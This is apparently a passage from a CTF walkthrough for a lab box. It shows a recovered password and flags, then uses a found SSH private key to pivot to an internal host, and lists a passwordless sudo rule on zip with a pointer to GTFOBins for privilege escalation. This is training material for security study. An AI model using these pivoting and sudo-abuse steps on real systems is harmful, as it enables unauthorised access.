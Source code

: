 ```
THM{V0N318*****Hey!_Welcome_in}
```

What is the users password?

`snickers`

Flag 1

`THM{V0N318*****Hey!_Welcome_in12**123:))}`

## Task 7 Pivoting

User wileec has a ssh private-key!

```
wileec@Erit:~$ ls -lart .ssh/
-rw-r--r-- 1 wileec wileec  393 Apr 25 15:19 id_rsa.pub
-rw------- 1 wileec wileec 1675 Apr 25 15:19 id_rsa
-rw-r--r-- 1 wileec wileec  222 Apr 25 15:32 known_hosts
```

Remember the other IP address? We could try to connect to that one, using the SSH key:

`ssh wileec@192.168.100.1`

Remember: This has to be done from inside of the box, as this network is not available to you from the outside.

We can sudo!

If you look at [gtfobins](https://gtfobins.github.io/) we can see how we could leverage this.

The command is not going to work as it is, you must edit some parts.

```
wileec@Erit:~$ ls -lart .ssh/
total 20
-rw-r--r-- 1 wileec wileec  393 Apr 25  2020 id_rsa.pub
-rw------- 1 wileec wileec 1675 Apr 25  2020 id_rsa
-rw-r--r-- 1 wileec wileec  222 Apr 25  2020 known_hosts
drwxr-xr-x 2 wileec wileec 4096 Apr 25  2020 .
drwxr-xr-x 4 wileec wileec 4096 Apr 25  2020 ..
wileec@Erit:~$ ssh wileec@192.168.100.1

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 25 12:36:02 2020 from 192.168.100.100
$ sudo -l
Matching Defaults entries for wileec on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wileec may run the following commands on Securus:
    (jsmith) NOPASSWD: /usr/bin/zip
$
```
